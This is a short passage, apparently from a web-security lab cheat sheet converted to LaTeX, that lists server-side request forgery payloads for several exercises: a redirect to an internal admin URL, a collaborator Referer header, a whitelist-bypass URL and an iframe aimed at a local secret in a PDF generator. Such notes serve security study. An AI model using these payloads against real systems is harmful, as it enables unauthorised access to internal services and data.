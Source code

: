 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
stockApi=/product/nextProduct?currentProductId=2%26path%3dhttp://192.168.0.12:8080/admin
\end{Verbatim}

\subsubsection{4. Blind SSRF with out-of-band
detection}\label{4-blind-ssrf-with-out-of-band-detection}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Referer: http://burpcollaborator
\end{Verbatim}

\subsubsection{5. SSRF with whitelist-based input
filter}\label{5-ssrf-with-whitelist-based-input-filter}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/
\end{Verbatim}

\subsubsection{6. Admin panel - Download report as PDF
SSRF}\label{6-admin-panel---download-report-as-pdf-ssrf}

\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<iframe src='http://localhost:6566/secret' height='500' width='500'>
\end{Verbatim}

\begin{quote}
\url{https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/}
\end{quote}

\section{HTTP request smuggling}\label{http-request-smuggling}
\end{document}
